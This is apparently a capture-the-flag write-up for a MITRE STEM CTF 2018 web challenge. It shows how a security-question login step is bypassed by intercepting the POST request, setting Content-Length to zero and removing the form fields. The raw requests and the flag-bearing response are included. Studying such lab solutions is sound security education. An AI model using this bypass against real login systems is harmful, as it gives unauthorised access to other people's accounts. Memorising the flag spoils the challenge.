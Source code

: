 # mitrestemctf2018-writeups
mitrestemctf.org --- Two Problems --- Web 100 points

Description:

"I lost my phone and I can\u2019t log in to my favorite website. Can you help me get access?"

Issue: 

Login auth is immediately presented with 2 security questions, the user doesn't know the answer to either
User needs to gain access w/o knowing security questions

Recon: 

http://138.247.115.171/home
- login page with provided creds

http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
- Security questions page presented post auth. 

request headers: 

--------------
POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 1 <--------- probably want to try setting this to 0 as well
Content-Type: application/x-www-form-urlencoded
Content-Length: 21 <----------- Content length is being passed in request headers

secQ1=1234&secQ2=1234 <--------- security question fields
----------------

Hypothesis: 
Intercept request, and modify "Content-Length" Header from 21 to 0, then forward request

Method: 

1 - Use Chrome devtools to pull request headers initially to see how the web app responds to POST requests on the security questions page
2 - Once we have what *should* be in the request headers, run the same request in burpsuite
3 - Intercept the POST for /login/donutsAreGr8/butChocolateIsBetter
4 - Modify the "Content-Length" header from "21" to "0"
5 - Modify the "Upgrade-Insecure-Requests" header from "1" to "0"
5 - Make sure to remove "secQ1=&secQ2=" from the payload (since the Content-Length 0 is now telling the web app to expect a 0 length payload)
6 - Forward request with modified header and payload to app. 

Resolution: 

-----Original Request-----
POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

secQ1=&secQ2=
-----------------------------

-----Modified Request--------
POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
-----------------------------

----Response-----------------
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Sat, 21 Apr 2018 06:18:54 GMT
X-Powered-By: Phusion Passenger 5.2.3
Server: nginx/1.12.2 + Phusion Passenger 5.2.3
Content-Length: 122

<title>Welcome</title>
Welcome donutsAreGr8!<br>
As thanks for using our website please accept this flag, MCA{Igkqs1Pn5w}.
-------------------------------
